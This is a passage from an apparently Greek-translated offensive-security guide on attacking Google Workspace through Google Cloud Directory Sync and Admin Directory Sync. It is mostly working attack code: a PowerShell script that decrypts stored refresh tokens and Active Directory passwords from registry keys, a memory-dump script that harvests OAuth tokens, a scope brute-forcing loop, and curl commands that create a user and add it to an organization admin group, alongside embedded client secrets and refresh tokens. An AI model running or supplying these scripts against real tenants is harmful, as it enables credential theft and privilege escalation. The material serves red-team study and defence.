https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.google.com/accounts/OAuthLogin
https://www.googleapis.com/auth/account.capabilities
https://www.googleapis.com/auth/accounts.programmaticchallenge
https://www.googleapis.com/auth/accounts.reauth
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/aida
https://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/android_checkin
https://www.googleapis.com/auth/any-api
https://www.googleapis.com/auth/assistant-sdk-prototype
https://www.googleapis.com/auth/auditrecording-pa
https://www.googleapis.com/auth/bce.secureconnect
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/cast.backdrop
https://www.googleapis.com/auth/cclog
https://www.googleapis.com/auth/chrome-model-execution
https://www.googleapis.com/auth/chrome-optimization-guide
https://www.googleapis.com/auth/chrome-safe-browsing
https://www.googleapis.com/auth/chromekanonymity
https://www.googleapis.com/auth/chromeosdevicemanagement
https://www.googleapis.com/auth/chromesync
https://www.googleapis.com/auth/chromewebstore.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/cryptauth
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/experimentsandconfigs
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/gcm
https://www.googleapis.com/auth/googlenow
https://www.googleapis.com/auth/googletalk
https://www.googleapis.com/auth/identity.passwords.leak.check
https://www.googleapis.com/auth/ip-protection
https://www.googleapis.com/auth/kid.family.readonly
https://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/kid.permission
https://www.googleapis.com/auth/kids.parentapproval
https://www.googleapis.com/auth/kids.supervision.setup.child
https://www.googleapis.com/auth/lens
https://www.googleapis.com/auth/music
https://www.googleapis.com/auth/nearbydevices-pa
https://www.googleapis.com/auth/nearbypresence-pa
https://www.googleapis.com/auth/nearbysharing-pa
https://www.googleapis.com/auth/peopleapi.readonly
https://www.googleapis.com/auth/peopleapi.readwrite
https://www.googleapis.com/auth/photos
https://www.googleapis.com/auth/photos.firstparty.readonly
https://www.googleapis.com/auth/photos.image.readonly
https://www.googleapis.com/auth/profile.language.read
https://www.googleapis.com/auth/secureidentity.action
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/supportcontent
https://www.googleapis.com/auth/tachyon
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.googleapis.com/auth/wallet.chrome" | tr '\n' ' ')

curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token
```
</details>

Ορισμένα παραδείγματα χρησιμοποιώντας μερικούς από αυτούς τους τομείς:

<details>

<summary>https://www.googleapis.com/auth/userinfo.email &#x26; https://www.googleapis.com/auth/userinfo.profile</summary>
```bash
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/oauth2/v2/userinfo"

{
"id": "100203736939176354570",
"email": "hacktricks@example.com",
"verified_email": true,
"name": "John Smith",
"given_name": "John",
"family_name": "Smith",
"picture": "https://lh3.googleusercontent.com/a/ACg8ocKLvue[REDACTED]wcnzhyKH_p96Gww=s96-c",
"locale": "en",
"hd": "example.com"
}
```
</details>

<details>

<summary>https://www.googleapis.com/auth/admin.directory.user</summary>
```bash
# List users
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/admin/directory/v1/users?customer=<workspace_id>&maxResults=100&orderBy=email"

# Create user
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"primaryEmail": "newuser@hdomain.com",
"name": {
"givenName": "New",
"familyName": "User"
},
"password": "UserPassword123",
"changePasswordAtNextLogin": true
}' \
"https://www.googleapis.com/admin/directory/v1/users"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/drive</summary>
```bash
# List files
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files?pageSize=10&fields=files(id,name,modifiedTime)&orderBy=name"
{
"files": [
{
"id": "1Z8m5ALSiHtewoQg1LB8uS9gAIeNOPBrq",
"name": "Veeam new vendor form 1 2024.docx",
"modifiedTime": "2024-08-30T09:25:35.219Z"
}
]
}

# Download file
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files/<file-id>?alt=media" \
-o "DownloadedFileName.ext"

# Upload file
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/octet-stream" \
--data-binary @path/to/file.ext \
"https://www.googleapis.com/upload/drive/v3/files?uploadType=media"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/devstorage.read_write</summary>
```bash
# List buckets from a project
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b?project=<project-id>"

# List objects in a bucket
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b/<bucket-name>/o?maxResults=10&fields=items(id,name,size,updated)&orderBy=name"

# Upload file to bucket
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/octet-stream" \
--data-binary @path/to/yourfile.ext \
"https://www.googleapis.com/upload/storage/v1/b/<BUCKET_NAME>/o?uploadType=media&name=<OBJECT_NAME>"

# Download file from bucket
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b/BUCKET_NAME/o/OBJECT_NAME?alt=media" \
-o "DownloadedFileName.ext"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/spreadsheets</summary>
```bash
# List spreadsheets
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files?q=mimeType='application/vnd.google-apps.spreadsheet'&fields=files(id,name,modifiedTime)&pageSize=100"

# Download as pdf
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files/106VJxeyIsVTkixutwJM1IiJZ0ZQRMiA5mhfe8C5CxMc/export?mimeType=application/pdf" \
-o "Spreadsheet.pdf"

# Create spreadsheet
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"properties": {
"title": "New Spreadsheet"
}
}' \
"https://sheets.googleapis.com/v4/spreadsheets"

# Read data from a spreadsheet
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://sheets.googleapis.com/v4/spreadsheets/<SPREADSHEET_ID>/values/Sheet1!A1:C10"

# Update data in spreadsheet
curl -X PUT \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"range": "Sheet1!A2:C2",
"majorDimension": "ROWS",
"values": [
["Alice Johnson", "28", "alice.johnson@example.com"]
]
}' \
"https://sheets.googleapis.com/v4/spreadsheets/<SPREADSHEET_ID>/values/Sheet1!A2:C2?valueInputOption=USER_ENTERED"

# Append data
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"values": [
["Bob Williams", "35", "bob.williams@example.com"]
]
}' \
"https://sheets.googleapis.com/v4/spreadsheets/SPREADSHEET_ID/values/Sheet1!A:C:append?valueInputOption=USER_ENTERED"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/ediscovery (Google Vault)</summary>

**Google Workspace Vault** είναι ένα πρόσθετο για το Google Workspace που παρέχει εργαλεία για τη διατήρηση δεδομένων, αναζήτηση και εξαγωγή για τα δεδομένα της οργάνωσής σας που αποθηκεύονται σε υπηρεσίες του Google Workspace όπως το Gmail, το Drive, το Chat και άλλα.

* Ένα **Matter** στο Google Workspace Vault είναι ένα **δοχείο** που οργανώνει και ομαδοποιεί όλες τις πληροφορίες που σχετίζονται με μια συγκεκριμένη υπόθεση, έρευνα ή νομικό ζήτημα. Λειτουργεί ως το κεντρικό σημείο για τη διαχείριση των **Holds**, **Searches** και **Exports** που αφορούν αυτό το συγκεκριμένο θέμα.
* Ένα **Hold** στο Google Workspace Vault είναι μια **ενέργεια διατήρησης** που εφαρμόζεται σε συγκεκριμένους χρήστες ή ομάδες για να **αποτραπεί η διαγραφή ή η τροποποίηση** των δεδομένων τους εντός των υπηρεσιών του Google Workspace. Τα Holds διασφαλίζουν ότι οι σχετικές πληροφορίες παραμένουν ανέπαφες και αμετάβλητες για τη διάρκεια μιας νομικής υπόθεσης ή έρευνας.
```bash
# List matters
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters?pageSize=10"

# Create matter
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"name": "Legal Case 2024",
"description": "Matter for the upcoming legal case involving XYZ Corp.",
"state": "OPEN"
}' \
"https://vault.googleapis.com/v1/matters"

# Get specific matter
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters/<MATTER_ID>"

# List holds in a matter
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters/<MATTER_ID>/holds?pageSize=10"
```
More [API endpoints in the docs](https://developers.google.com/vault/reference/rest).

</details>

## GCDS - Google Cloud Directory Sync

Αυτό είναι ένα εργαλείο που μπορεί να χρησιμοποιηθεί για να **συγχρονίσετε τους χρήστες και τις ομάδες του Active Directory σας με το Workspace σας** (και όχι το αντίστροφο κατά τη στιγμή της συγγραφής αυτού του κειμένου).

Είναι ενδιαφέρον γιατί είναι ένα εργαλείο που θα απαιτήσει τα **διαπιστευτήρια ενός superuser του Workspace και ενός προνομιούχου χρήστη AD**. Έτσι, μπορεί να είναι δυνατό να το βρείτε μέσα σε έναν διακομιστή τομέα που θα συγχρονίζει χρήστες από καιρό σε καιρό.

{% hint style="info" %}
Για να εκτελέσετε ένα **MitM** στο **`config-manager.exe`** δυαδικό αρχείο, απλώς προσθέστε την παρακάτω γραμμή στο αρχείο `config.manager.vmoptions`: **`-Dcom.sun.net.ssl.checkRevocation=false`**
{% endhint %}

{% hint style="success" %}
Σημειώστε ότι [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) είναι ικανό να ανιχνεύσει το **GCDS**, να αποκτήσει πληροφορίες σχετικά με τη διαμόρφωση και **ακόμα και τους κωδικούς πρόσβασης και τα κρυπτογραφημένα διαπιστευτήρια**.
{% endhint %}

Επίσης, σημειώστε ότι το GCDS δεν θα συγχρονίσει τους κωδικούς πρόσβασης από το AD στο Workspace. Αν κάτι, θα δημιουργήσει απλώς τυχαίους κωδικούς πρόσβασης για τους νεοδημιουργηθέντες χρήστες στο Workspace όπως μπορείτε να δείτε στην παρακάτω εικόνα:

<figure><img src="../../.gitbook/assets/telegram-cloud-photo-size-4-5780773316536156543-x.jpg" alt="" width="515"><figcaption></figcaption></figure>

### GCDS - Δισκοι Tokens & Διαπιστευτήρια AD

Το δυαδικό αρχείο `config-manager.exe` (το κύριο δυαδικό αρχείο GCDS με GUI) θα αποθηκεύσει τα διαπιστευτήρια του Active Directory που έχουν ρυθμιστεί, το refresh token και την πρόσβαση από προεπιλογή σε ένα **xml αρχείο** στον φάκελο **`C:\Program Files\Google Cloud Directory Sync`** σε ένα αρχείο που ονομάζεται **`Untitled-1.xml`** από προεπιλογή. Αν και θα μπορούσε επίσης να αποθηκευτεί στα `Documents` του χρήστη ή σε **οποιονδήποτε άλλο φάκελο**.

Επιπλέον, το μητρώο **`HKCU\SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\ui`** μέσα στο κλειδί **`open.recent`** περιέχει τις διαδρομές προς όλα τα πρόσφατα ανοιγμένα αρχεία διαμόρφωσης (xmls). Έτσι είναι δυνατό να **το ελέγξετε για να τα βρείτε**.

Οι πιο ενδιαφέρουσες πληροφορίες μέσα στο αρχείο θα είναι:
```xml
[...]
<loginMethod>OAUTH2</loginMethod>
<oAuth2RefreshToken>rKvvNQxi74JZGI74u68aC6o+3Nu1ZgVUYdD1GyoWyiHHxtWx+lbx3Nk8dU27fts5lCJKH/Gp1q8S6kEM2AvjQZN16MkGTU+L2Yd0kZsIJWeO0K0RdVaK2D9Saqchk347kDgGsQulJnuxU+Puo46+aA==</oAuth2RefreshToken>
<oAuth2Scopes>
<scope>https://www.google.com/m8/feeds/</scope>
<scope>https://www.googleapis.com/auth/admin.directory.group</scope>
<scope>https://www.googleapis.com/auth/admin.directory.orgunit</scope>
<scope>https://www.googleapis.com/auth/admin.directory.resource.calendar</scope>
<scope>https://www.googleapis.com/auth/admin.directory.user</scope>
<scope>https://www.googleapis.com/auth/admin.directory.userschema</scope>
<scope>https://www.googleapis.com/auth/apps.groups.settings</scope>
<scope>https://www.googleapis.com/auth/apps.licensing</scope>
<scope>https://www.googleapis.com/auth/plus.me</scope>
</oAuth2Scopes>
[...]
<hostname>192.168.10.23</hostname>
<port>389</port>
<basedn>dc=hacktricks,dc=local</basedn>
<authType>SIMPLE</authType>
<authUser>DOMAIN\domain-admin</authUser>
<authCredentialsEncrypted>XMmsPMGxz7nkpChpC7h2ag==</authCredentialsEncrypted>
[...]
```
Σημειώστε πώς το **refresh** **token** και ο **κωδικός πρόσβασης** του χρήστη είναι **κρυπτογραφημένα** χρησιμοποιώντας **AES CBC** με ένα τυχαία παραγόμενο κλειδί και IV που αποθηκεύονται στο **`HKEY_CURRENT_USER\SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\util`** (όπου η βιβλιοθήκη **`prefs`** της Java αποθηκεύει τις προτιμήσεις) στα κλειδιά συμβολοσειράς **`/Encryption/Policy/V2.iv`** και **`/Encryption/Policy/V2.key`** που αποθηκεύονται σε base64.

<details>

<summary>Powershell script για την αποκρυπτογράφηση του refresh token και του κωδικού πρόσβασης</summary>
```powershell
# Paths and key names
$xmlConfigPath = "C:\Users\c\Documents\conf.xml"
$regPath = "SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\util"
$ivKeyName = "/Encryption/Policy/V2.iv"
$keyKeyName = "/Encryption/Policy/V2.key"

# Open the registry key
try {
$regKey = [Microsoft.Win32.Registry]::CurrentUser.OpenSubKey($regPath)
if (-not $regKey) {
Throw "Registry key not found: HKCU\$regPath"
}
}
catch {
Write-Error "Failed to open registry key: $_"
exit
}

# Get Base64-encoded IV and Key from the registry
try {
$ivBase64 = $regKey.GetValue($ivKeyName)
$ivBase64 = $ivBase64 -replace '/', ''
$ivBase64 = $ivBase64 -replace '\\', '/'
if (-not $ivBase64) {
Throw "IV not found in registry"
}
$keyBase64 = $regKey.GetValue($keyKeyName)
$keyBase64 = $keyBase64 -replace '/', ''
$keyBase64 = $keyBase64 -replace '\\', '/'
if (-not $keyBase64) {
Throw "Key not found in registry"
}
}
catch {
Write-Error "Failed to read registry values: $_"
exit
}
$regKey.Close()


# Decode Base64 IV and Key
$ivBytes = [Convert]::FromBase64String($ivBase64)
$keyBytes = [Convert]::FromBase64String($keyBase64)

# Read XML content
$xmlContent = Get-Content -Path $xmlConfigPath -Raw

# Extract Base64-encoded encrypted values using regex
$refreshTokenMatch = [regex]::Match($xmlContent, "<oAuth2RefreshToken>(.*?)</oAuth2RefreshToken>")
$refreshTokenBase64 = $refreshTokenMatch.Groups[1].Value

$encryptedPasswordMatch = [regex]::Match($xmlContent, "<authCredentialsEncrypted>(.*?)</authCredentialsEncrypted>")
$encryptedPasswordBase64 = $encryptedPasswordMatch.Groups[1].Value

# Decode encrypted values from Base64
$refreshTokenEncryptedBytes = [Convert]::FromBase64String($refreshTokenBase64)
$encryptedPasswordBytes = [Convert]::FromBase64String($encryptedPasswordBase64)

# Function to decrypt data using AES CBC
Function Decrypt-Data($cipherBytes, $keyBytes, $ivBytes) {
$aes = [System.Security.Cryptography.Aes]::Create()
$aes.Mode = [System.Security.Cryptography.CipherMode]::CBC
$aes.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
$aes.KeySize = 256
$aes.BlockSize = 128
$aes.Key = $keyBytes
$aes.IV = $ivBytes

$decryptor = $aes.CreateDecryptor()
$memoryStream = New-Object System.IO.MemoryStream
$cryptoStream = New-Object System.Security.Cryptography.CryptoStream($memoryStream, $decryptor, [System.Security.Cryptography.CryptoStreamMode]::Write)
$cryptoStream.Write($cipherBytes, 0, $cipherBytes.Length)
$cryptoStream.FlushFinalBlock()
$plaintextBytes = $memoryStream.ToArray()

$cryptoStream.Close()
$memoryStream.Close()

return $plaintextBytes
}

# Decrypt the values
$refreshTokenBytes = Decrypt-Data -cipherBytes $refreshTokenEncryptedBytes -keyBytes $keyBytes -ivBytes $ivBytes
$refreshToken = [System.Text.Encoding]::UTF8.GetString($refreshTokenBytes)

$decryptedPasswordBytes = Decrypt-Data -cipherBytes $encryptedPasswordBytes -keyBytes $keyBytes -ivBytes $ivBytes
$decryptedPassword = [System.Text.Encoding]::UTF8.GetString($decryptedPasswordBytes)

# Output the decrypted values
Write-Host "Decrypted Refresh Token: $refreshToken"
Write-Host "Decrypted Password: $decryptedPassword"
```
</details>

{% hint style="info" %}
Σημειώστε ότι είναι δυνατόν να ελέγξετε αυτές τις πληροφορίες ελέγχοντας τον κώδικα java του **`DirSync.jar`** από **`C:\Program Files\Google Cloud Directory Sync`** αναζητώντας τη συμβολοσειρά `exportkeys` (καθώς είναι η παράμετρος cli που περιμένει το δυαδικό `upgrade-config.exe` για να εξάγει τα κλειδιά).
{% endhint %}

Αντί να χρησιμοποιήσετε το σενάριο powershell, είναι επίσης δυνατό να χρησιμοποιήσετε το δυαδικό **`:\Program Files\Google Cloud Directory Sync\upgrade-config.exe`** με την παράμετρο `-exportKeys` και να αποκτήσετε το **Key** και **IV** από το μητρώο σε hex και στη συνέχεια να χρησιμοποιήσετε κάποιο cyberchef με AES/CBC και αυτό το κλειδί και IV για να αποκρυπτογραφήσετε τις πληροφορίες.

### GCDS - Εξαγωγή tokens από τη μνήμη

Ακριβώς όπως με το GCPW, είναι δυνατό να εξάγετε τη μνήμη της διαδικασίας του `config-manager.exe` (είναι το όνομα του κύριου δυαδικού GCDS με GUI) και θα μπορείτε να βρείτε tokens ανανέωσης και πρόσβασης (αν έχουν ήδη παραχθεί).\
Υποθέτω ότι θα μπορούσατε επίσης να βρείτε τις ρυθμισμένες διαπιστεύσεις AD.

<details>

<summary>Εξαγωγή διαδικασιών config-manager.exe και αναζήτηση tokens</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$chromeProcesses = Get-Process -Name "config-manager" -ErrorAction SilentlyContinue | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -accepteula -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}

Remove-Item -Path $dumpFolder -Recurse -Force
```
</details>

### GCDS - Δημιουργία διαπιστευτηρίων πρόσβασης από ανανεωτικά διαπιστευτήρια

Χρησιμοποιώντας το ανανεωτικό διαπιστευτήριο, είναι δυνατή η δημιουργία διαπιστευτηρίων πρόσβασης χρησιμοποιώντας το και το αναγνωριστικό πελάτη και το μυστικό πελάτη που καθορίζονται στην παρακάτω εντολή:
```bash
curl -s --data "client_id=118556098869.apps.googleusercontent.com" \
--data "client_secret=Co-LoSjkPcQXD9EjJzWQcgpy" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
https://www.googleapis.com/oauth2/v4/token
```
### GCDS - Scopes

{% hint style="info" %}
Σημειώστε ότι ακόμη και αν έχετε ένα refresh token, δεν είναι δυνατόν να ζητήσετε οποιοδήποτε scope για το access token, καθώς μπορείτε να ζητήσετε μόνο τα **scopes που υποστηρίζονται από την εφαρμογή όπου δημιουργείτε το access token**.

Επίσης, το refresh token δεν είναι έγκυρο σε κάθε εφαρμογή.
{% endhint %}

Από προεπιλογή, το GCSD δεν θα έχει πρόσβαση ως χρήστης σε κάθε πιθανό OAuth scope, οπότε χρησιμοποιώντας το παρακάτω σενάριο μπορούμε να βρούμε τα scopes που μπορούν να χρησιμοποιηθούν με το `refresh_token` για να δημιουργήσουμε ένα `access_token`:

<details>

<summary>Bash script to brute-force scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=118556098869.apps.googleusercontent.com" \
--data "client_secret=Co-LoSjkPcQXD9EjJzWQcgpy" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03PR0VQOSCjS1CgYIARAAGAMSNwF-L9Ir5b_vOaCmnXzla0nL7dX7TJJwFcvrfgDPWI-j19Z4luLpYfLyv7miQyvgyXjGEXt-t0A" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

Και αυτό είναι το αποτέλεσμα που πήρα τη στιγμή που έγραφα:
```
https://www.googleapis.com/auth/admin.directory.group
https://www.googleapis.com/auth/admin.directory.orgunit
https://www.googleapis.com/auth/admin.directory.resource.calendar
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/admin.directory.userschema
https://www.googleapis.com/auth/apps.groups.settings
https://www.googleapis.com/auth/apps.licensing
https://www.googleapis.com/auth/contacts
```
#### Δημιουργήστε έναν χρήστη και προσθέστε τον στην ομάδα `gcp-organization-admins` για να προσπαθήσετε να κλιμακώσετε στην GCP
```bash
# Create new user
curl -X POST \
'https://admin.googleapis.com/admin/directory/v1/users' \
-H 'Authorization: Bearer <ACCESS_TOKEN>' \
-H 'Content-Type: application/json' \
-d '{
"primaryEmail": "deleteme@domain.com",
"name": {
"givenName": "Delete",
"familyName": "Me"
},
"password": "P4ssw0rdStr0ng!",
"changePasswordAtNextLogin": false
}'

# Add to group
curl -X POST \
'https://admin.googleapis.com/admin/directory/v1/groups/gcp-organization-admins@domain.com/members' \
-H 'Authorization: Bearer <ACCESS_TOKEN>' \
-H 'Content-Type: application/json' \
-d '{
"email": "deleteme@domain.com",
"role": "OWNER"
}'

# You could also change the password of a user for example
```
{% hint style="danger" %}
Δεν είναι δυνατόν να δώσετε στο νέο χρήστη τον ρόλο του Super Admin επειδή το **refresh token δεν έχει αρκετά scopes** για να δώσει τα απαιτούμενα δικαιώματα.
{% endhint %}

## Admin Directory Sync

Η κύρια διαφορά μεταξύ αυτού του τρόπου συγχρονισμού χρηστών με το GCDS είναι ότι το GCDS γίνεται χειροκίνητα με κάποια binaries που πρέπει να κατεβάσετε και να εκτελέσετε, ενώ το **Admin Directory Sync είναι serverless** και διαχειρίζεται από την Google στο [https://admin.google.com/ac/sync/externaldirectories](https://admin.google.com/ac/sync/externaldirectories).

Αυτή τη στιγμή που γράφεται αυτό το κείμενο, αυτή η υπηρεσία είναι σε beta και υποστηρίζει 2 τύπους συγχρονισμού: Από **Active Directory** και από **Azure Entra ID:**

* **Active Directory:** Για να το ρυθμίσετε αυτό, πρέπει να δώσετε **πρόσβαση στην Google στο περιβάλλον Active Directory σας**. Και καθώς η Google έχει πρόσβαση μόνο σε δίκτυα GCP (μέσω **VPC connectors**), πρέπει να δημιουργήσετε έναν connector και στη συνέχεια να κάνετε το AD σας διαθέσιμο από αυτόν τον connector, έχοντας το σε VMs στο δίκτυο GCP ή χρησιμοποιώντας Cloud VPN ή Cloud Interconnect. Στη συνέχεια, πρέπει επίσης να παρέχετε **credentials** ενός λογαριασμού με δικαιώματα ανάγνωσης στο directory και **πιστοποιητικό** για επικοινωνία μέσω **LDAPS**.
* **Azure Entra ID:** Για να το ρυθμίσετε, χρειάζεται απλώς να **συνδεθείτε στο Azure με έναν χρήστη με δικαιώματα ανάγνωσης** πάνω στη συνδρομή Entra ID σε ένα pop-up που εμφανίζεται από την Google, και η Google θα κρατήσει το token με δικαιώματα ανάγνωσης πάνω στο Entra ID.

Μόλις ρυθμιστεί σωστά, και οι δύο επιλογές θα επιτρέψουν να **συγχρονίσετε χρήστες και ομάδες με το Workspace**, αλλά δεν θα επιτρέψουν να ρυθμίσετε χρήστες και ομάδες από το Workspace στο AD ή EntraID.

Άλλες επιλογές που θα επιτρέψει κατά τη διάρκεια αυτού του συγχρονισμού είναι:

* Αποστολή email στους νέους χρήστες για να συνδεθούν
* Αυτόματη αλλαγή της διεύθυνσης email τους σε αυτή που χρησιμοποιείται από το Workspace. Έτσι, αν το Workspace χρησιμοποιεί `@hacktricks.xyz` και οι χρήστες EntraID χρησιμοποιούν `@carloshacktricks.onmicrosoft.com`, το `@hacktricks.xyz` θα χρησιμοποιηθεί για τους χρήστες που δημιουργούνται στον λογαριασμό.
* Επιλογή των **ομάδων που περιέχουν τους χρήστες** που θα συγχρονιστούν.
* Επιλογή **ομάδων** για συγχρονισμό και δημιουργία στο Workspace (ή ένδειξη για συγχρονισμό όλων των ομάδων).

### Από AD/EntraID -> Google Workspace (& GCP)

Αν καταφέρετε να συμβιβάσετε ένα AD ή EntraID, θα έχετε πλήρη έλεγχο των χρηστών και των ομάδων που θα συγχρονιστούν με το Google Workspace.\
Ωστόσο, σημειώστε ότι οι **κωδικοί πρόσβασης** που μπορεί να χρησιμοποιούν οι χρήστες στο Workspace **μπορεί να είναι οι ίδιοι ή όχι**.

#### Επίθεση σε χρήστες

Όταν συμβαίνει ο συγχρονισμός, μπορεί να συγχρονίσει **όλους τους χρήστες από το AD ή μόνο αυτούς από μια συγκεκριμένη OU** ή μόνο τους **χρήστες μέλη συγκεκριμένων ομάδων στο EntraID**. Αυτό σημαίνει ότι για να επιτεθείτε σε έναν συγχρονισμένο χρήστη (ή να δημιουργήσετε έναν νέο που θα συγχρονιστεί), θα χρειαστεί πρώτα να καταλάβετε ποιους χρήστες συγχρονίζετε.

